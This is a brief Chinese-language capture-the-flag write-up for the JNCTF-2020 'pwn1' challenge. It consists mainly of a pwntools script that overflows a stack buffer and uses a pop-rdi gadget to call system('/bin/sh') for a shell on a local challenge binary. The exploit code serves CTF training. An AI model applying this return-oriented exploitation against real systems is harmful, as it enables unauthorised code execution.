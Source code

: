 # JNCTF-2020 : jnctf_2020_pwn1

## **【原理】**
基础栈溢出

## **【目的】**
getshell

## **【环境】**
Ubuntu 16.04

## **【工具】**
Pwntools,ida

## **【步骤】**


```python
from pwn import*
context.log_level = 'debug'
#p = remote('',)
p = process('./jnctf_2020_pwn1')
elf = ELF('./jnctf_2020_pwn1')
system = elf.plt['system']
prdi = 0x400903
#gdb.attach(p,'b *0x40085F')
payload = '/bin/sh'.ljust(0x30,'\x00') + p64(0x1000)
p.sendafter('>>\n',payload)
payload = 'a'*0x28+p64(prdi)+p64(0x6010a0) +p64(system)
p.sendafter('name:\n',payload)
p.interactive()

```



## **【总结】**
签到pwn
